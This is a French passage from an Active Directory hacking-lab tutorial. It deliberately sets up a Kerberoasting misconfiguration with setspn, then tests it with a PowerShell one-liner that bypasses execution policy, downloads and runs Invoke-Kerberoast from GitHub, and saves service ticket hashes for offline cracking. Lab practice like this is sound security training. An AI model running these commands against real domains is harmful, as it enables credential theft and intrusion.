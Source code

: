 Afin de pouvoir exploiter ce lab plus tard, nous allons créer deux *misconfiguration* permettant les attaques Kerberoasting et AS-REP roasting.

Pour implenter d'autres vulnérabiltiés, voir [7]

**1. Kerberoasting**

![4841aac631175076eda8f5956fc0ac20.png](/img/d51021ff5c7a4fd2928ffdf6842dd55d.png)
*Source [7]*

Sur le serveur:

```
PS > setspn -s http/server1.hacklab.local:80 user1
```

![7314117416f2a2dd2818d6100c0350d8.png](/img/1e9ac8fa2ab248d083479a91c1b32969.png)

Test avec `Invoke-Kerberoast` sur la Win 7 [8]

`powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/myexploit/PS_Scripts_Backup/master/Invoke-Kerberoast.ps1') ; Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash1.txt"`

![f7424c33191313a031e23a84810d56b4.png](/img/e6f732a518ce410c9a4eee2e0bc0ff0c.png)
